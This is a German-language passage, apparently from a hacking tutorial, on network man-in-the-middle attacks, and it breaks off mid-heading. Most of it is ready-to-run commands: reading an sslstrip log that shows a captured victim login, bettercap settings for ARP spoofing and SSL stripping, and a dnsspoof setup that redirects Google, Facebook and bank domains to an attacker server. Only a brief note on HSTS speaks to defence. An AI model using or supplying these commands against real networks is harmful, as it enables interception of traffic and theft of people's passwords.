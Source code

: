 **sslstrip Log analysieren:**
```bash
cat /tmp/sslstrip.log

# Zeigt:
# 2024-01-01 12:34:56 POST https://www.example.com/login
# username=victim@email.com&password=secretpass123
```

#### SSL Strip mit bettercap

```bash
bettercap -iface wlan0

# Im bettercap:
http.proxy on
https.proxy on
set https.proxy.sslstrip true

arp.spoof on
```

**Moderne Browser-Schutz:**
- HSTS (HTTP Strict Transport Security)
- Browser erzwingt HTTPS
- SSL Strip funktioniert nicht mehr für HSTS-Sites
- Aber: Viele Sites haben kein HSTS

### DNS Spoofing

**Redirect Victims zu Fake-Seiten:**

#### DNS Spoof mit dnsspoof

```bash
# Installiere
apt-get install dsniff

# Erstelle hosts-Datei
cat > /tmp/dns_hosts << EOF
192.168.1.100 www.google.com
192.168.1.100 www.facebook.com
192.168.1.100 www.bank.com
EOF

# 192.168.1.100 = Deine Fake-Server IP (kann Flipper sein)

# Starte dnsspoof
dnsspoof -i wlan0 -f /tmp/dns_hosts

# Wenn Victim zu google.com geht → landet bei dir!
```

#### DNS Spoof mit bettercap
